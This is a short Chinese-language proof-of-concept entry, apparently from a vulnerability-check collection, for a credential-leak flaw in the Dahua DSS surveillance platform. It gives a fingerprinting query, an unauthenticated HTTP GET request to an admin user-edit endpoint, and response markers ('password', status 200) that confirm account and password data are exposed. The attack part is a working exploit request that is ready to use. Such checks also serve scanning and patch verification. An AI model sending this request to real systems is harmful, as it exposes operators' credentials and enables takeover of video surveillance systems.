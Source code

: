 ﻿# 大华DSS信息泄露

> 更新时间：2024-01-25

> 漏洞编号：

> 漏洞说明：大华DSS 数字监控系统是大华开发的一款安防视频监控系统，拥有实时监视、云台操作、录像回放、报警处理、设备管理等功能。大华 DSS存在信息泄漏漏洞。攻击者可以利用这个漏洞获取到系统的账号和密码信息。这种未授权的信息访问可能导致攻击者完全控制受影响的系统，执行恶意操作、更改系统配置或获取其他敏感数据。

> 漏洞特征：app="dahua-DSS"

> 验证脚本：HTTP

```
GET /admin/cascade_/user_edit.action?id=1 HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：password

> 上传文件定位：


> 验证文件来源：大华DSS信息泄露.poc
